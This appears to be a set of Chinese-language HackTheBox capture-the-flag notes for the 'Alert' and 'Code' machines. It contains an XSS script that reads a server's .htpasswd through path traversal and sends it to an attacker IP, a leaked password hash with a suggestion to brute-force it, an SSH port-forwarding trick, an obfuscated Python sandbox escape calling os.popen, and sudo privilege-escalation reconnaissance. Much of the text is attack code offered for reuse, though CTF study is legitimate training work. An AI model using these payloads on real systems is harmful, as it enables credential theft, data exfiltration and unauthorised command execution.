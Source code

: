 ```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```

连接输入到`Contact Us`，本地接收到`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` ，后面爆破就行了

### 端口转发
假设ssh进入一个靶机，`ps`发现还有端口在运行，但是`nmap`并没有发现，就可以尝试把端口转发出去，例如
`ssh -L 8080:127.0.0.1:8080 albert@alert.htb`，一般漏洞点在这个web里面

### code的模拟输出

```
modules = globals().values()
global _module
for name, module in sys.modules.items():
    if name == ('o'+'s'):
        _module = module
        break
_method = getattr(_module, 'po' + 'pen')
file_obj = _method(' ')
_method = getattr(file_obj, 're' + 'ad')
output = _method()
print(output)
```
其实本质是
```
import os
output = os.popen(' ').read()
print(output)
```
在题目禁用的乱七八糟的情况下也是一个好方法，可以直接去读flag，爽啦

### code的root.txt
```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
martin@code:~$ ls -la /usr/bin/backy.sh
-rwxr-xr-x 1 root root 926 Sep 16  2024 /usr/bin/backy.sh
martin@code:~$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
```